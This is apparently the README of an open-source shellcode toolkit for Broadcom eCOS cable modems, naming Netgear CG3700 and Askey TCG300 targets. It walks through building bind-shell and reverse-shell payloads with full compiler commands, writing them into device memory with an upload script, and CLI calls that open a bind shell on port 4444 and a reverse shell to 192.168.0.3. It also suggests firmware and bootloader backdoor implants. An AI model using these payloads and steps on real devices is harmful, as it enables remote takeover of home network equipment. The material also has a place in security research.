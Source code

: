 # eCOS Shellcodes

Shellcode generation for eCOS platform. Right now mostly focused on Broadcom eCOS platform (Broadcom Foundation Classes).

The following shellcodes are implemented:

- **sample** - launch a thread printing a character string on console every 5 seconds
- **bindshell** - a bind shell function (blocking)
- **bindshell\_thread** - a bind shell function launched within a dedicated thread
- **reverseshell** - a reverse shell function (blocking)
- **reverseshell\_thread** - a reverse shell function launched within a dedicated thread

## Toolchain Install

You need the mipsisa32-elf toolchain to generate shellcode for Broadcom eCOS platform. You can run `install.sh` to download it into the repo.


## Shellcode Generation

First, you need to extract all function offsets from your target's firmware and place them in the `payload.ld` file. Right now, two targets are defined:

- **CG3700** - Netgear CG3700
- **TCG300** - Askey TCG300/Siligence TCG300

Once done, just edit the PLATFORM parameter in `Makefile` so that the linker will take offsets from your file.

When done, you can generate shellcode with make commands:

```
make clean && make
rm -f *.elf *.bin
gnutools/mipsisa32-elf/bin/mipsisa32-elf-gcc sample.c -o sample.elf -march=mips32 -mabi=eabi -msoft-float -mno-abicalls -fno-builtin -nostdlib -nodefaultlibs -nostartfiles -T CG3700/payload.ld
gnutools/mipsisa32-elf/bin/mipsisa32-elf-objcopy -O binary -j .start -j .text -j .data -j .rodata sample.elf sample.bin
gnutools/mipsisa32-elf/bin/mipsisa32-elf-gcc reverseshell.c -o reverseshell.elf -march=mips32 -mabi=eabi -msoft-float -mno-abicalls -fno-builtin -nostdlib -nodefaultlibs -nostartfiles -T CG3700/payload.ld
gnutools/mipsisa32-elf/bin/mipsisa32-elf-objcopy -O binary -j .start -j .text -j .data -j .rodata reverseshell.elf reverseshell.bin
gnutools/mipsisa32-elf/bin/mipsisa32-elf-gcc reverseshell_thread.c -o reverseshell_thread.elf -march=mips32 -mabi=eabi -msoft-float -mno-abicalls -fno-builtin -nostdlib -nodefaultlibs -nostartfiles -T CG3700/payload.ld
gnutools/mipsisa32-elf/bin/mipsisa32-elf-objcopy -O binary -j .start -j .text -j .data -j .rodata reverseshell_thread.elf reverseshell_thread.bin
gnutools/mipsisa32-elf/bin/mipsisa32-elf-gcc bindshell.c -o bindshell.elf -march=mips32 -mabi=eabi -msoft-float -mno-abicalls -fno-builtin -nostdlib -nodefaultlibs -nostartfiles -T CG3700/payload.ld
gnutools/mipsisa32-elf/bin/mipsisa32-elf-objcopy -O binary -j .start -j .text -j .data -j .rodata bindshell.elf bindshell.bin
gnutools/mipsisa32-elf/bin/mipsisa32-elf-gcc bindshell_thread.c -o bindshell_thread.elf -march=mips32 -mabi=eabi -msoft-float -mno-abicalls -fno-builtin -nostdlib -nodefaultlibs -nostartfiles -T CG3700/payload.ld
gnutools/mipsisa32-elf/bin/mipsisa32-elf-objcopy -O binary -j .start -j .text -j .data -j .rodata bindshell_thread.elf bindshell_thread.bin
```

## Shellcode Write

The Broadcom eCOS platform expose `write_memory` and `read_memory` CLI functions that we can call to write our shellcode in RAM.

You can use the `upload.py` python script to write a given shellcode into a device memory over a serial connection.

```
./upload.py reverseshell.bin 0x80810000
[+] Writing payload to memory.
[+] Reading payload from memory.
[+] Integrity check passed.
```

Note that these functions can be called from different context (SSH session, telnet session, reverse shell session, ...). The script only supports serial at the moment, pull requests are welcomed though :)

## Shellcode Call

Once written into memory, we can call our shell code by relying on the `call` CLI function. The next subsections explain how to call each shellcode.

### bind shell

The shellcode takes two parameters:

- ip address to bind to
- tcp port to bind to

Parameters must be transmitted in hexadecimal notation.

```
CM> call func -r -a 0x80810000 0x00000000 0x115c
Calling function 0x80810000(0x00000000, 0x115c)
[+] Launching bind shell on 0.0.0.0:4444
```

### reverse shell

The shellcode takes two parameters:

- ip address to connect to
- tcp port to connect to

Parameters must be transmitted in hexadecimal notation.

```
CM> call func -r -a 0x80810000 0xc0a80003 0x115c
Calling function 0x80810000(0xc0a80003, 0x115c)
[+] Launching reverse shell to 192.168.0.3:4444
```

## eCOS Threading

Reverse and bind shells supports threading but it's not that interesting on Broadcom platform because the console I/O cannot be shared by multiple threads (no virtual tty like Linux).

This means that once you launch the (reverse/bind) shell thread, you lose access to the console if you were already connected to it via UART/Telnet/SSH. Note that once you quit the thread (e.g. by closing the reverse shell connection), the code takes care of re-assigning console I/O to the legit descriptor.

Threading is still super relevant for specific functions that don't need console I/O and that you can leave running in the background (network scanning, implant writing to backdoor bootloader/firmware, gdb server, ...).

## Credits

- Makefile and linker file inspired from [https://github.com/stdw/cm-sdr](https://github.com/stdw/cm-sdr)
- eCOS console command handler inspiration from early work on CableHaunt by [Lyrebirds](https://github.com/Lyrebirds/technicolor-tc7230-exploit/blob/master/reverseshell.c)
